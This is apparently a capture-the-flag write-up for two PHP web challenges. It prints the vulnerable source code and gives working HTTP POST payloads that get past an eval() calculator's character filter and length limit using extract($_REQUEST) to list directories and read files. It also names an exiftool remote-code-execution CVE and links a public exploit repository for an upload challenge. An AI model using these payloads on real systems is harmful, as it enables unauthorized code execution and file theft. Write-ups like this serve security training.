 ### Lame Calc (682 pts)

Given an attachment file index.php with this source code
```
<form action="/" method="POST">
   Enter your equation : <br>
   <input type="text" name="equation"><br>
   <input type="submit" name="submit" value="Submit">
</form>
 
<?php
if (isset($_POST["equation"])){
   $eq = $_POST["equation"];
 
   if (strlen($eq) > 57){
       die("Too long !");
   }
 
   if(preg_match("/\~|\&|\||\[|\]|\.|\`|\'|\||\+|\-|\>|\?|\<|\//i",$eq)){
       die("Bad Char !");
   }
   eval("echo " . $eq . " ;");
 
}
?>
```

From that source code, we know that our restriction is
1. Length our input must be under 57
2. We cant use `"~&|[].`'+-?<>\"`

After that our input will be evaluated by application.

Our next restriction is `disable_functions`. filesystem functions, shell functions, and phpinfo are restricted too.

#### Solving the Problem
1. Length Restriction.
We are still able to bypass length restriction using extract and evaluate it.
```
POST / HTTP/1.1
… < snip - snip > …

equation=@extract($_REQUEST);eval($c);&submit=Submit&c=scandir(".");
```
2. Alternative for directory listing.
Using class SPL (Standard PHP Library)
```
POST / HTTP/1.1
… < snip - snip > …

equation=@extract($_REQUEST);eval($c);&submit=Submit&c=$dir = new DirectoryIterator("/app/public/sik.ret");
foreach ($dir as $fileinfo) {
    if (!$fileinfo->isDot()) {
        var_dump($fileinfo->getFilename());
    }
}
```
3. Alternative for reading file
```
POST / HTTP/1.1
… < snip - snip > …

equation=@extract($_REQUEST);eval($c);&submit=Submit&c=include('/app/public/sik.ret/flag.txt)
```

### Blind Exi(t) (697 pts)
Given an attachment file upload.php with this source code
```
<?php
 
if($_POST['upload'] && $_POST["comment"]){
   $comment = $_POST["comment"];
   $allowed_ext = array('png','jpg','jpeg');
   $filename = $_FILES['file']['name'];
   $x = explode('.', $filename);
   $ext = strtolower(end($x));
   $size   = $_FILES['file']['size'];
   $file_tmp = $_FILES['file']['tmp_name'];
   $outfilename = "<REDACTED>";
   $outpath = 'uploads/'.$outfilename.".".$ext;
 
   if(in_array($ext, $allowed_ext) === true){
      
       if(mime_content_type($file_tmp) != "image/png" && mime_content_type($file_tmp) != "image/jpg" && mime_content_type($file_tmp) != "image/jpeg"){
           die("Only allowed image/jpg or image/png MIME type !");
       }
 
       if($size < 7000){          
           move_uploaded_file($file_tmp, $outpath);
 
           $check_cmd = escapeshellcmd("./exiftool $outpath");
           $write_cmd = escapeshellcmd("./exiftool -Comment='$comment' $outpath");
           shell_exec($check_cmd.";".$write_cmd);
 
           $image_info = getimagesize($outpath);
 
           header('Content-Type: ' . $image_info['mime']);
           header('Content-Length: ' . filesize($outpath));
 
           readfile($outpath);
 
       }else{
           die('Size too big !');
       }
   }else{
       die('Not allowed extension !') ;
   }
}
```
From that source code, we know that our restriction is
1. Our comment will be escaped using `escapeshellcmd()`
2. File must be a valid image
3. we cant control output filename

The recent exploit for exiftool is `CVE-2021-22204`

#### Solving The Problem
We just use this repository for solving this challenge.

https://github.com/convisoappsec/CVE-2021-22204-exiftool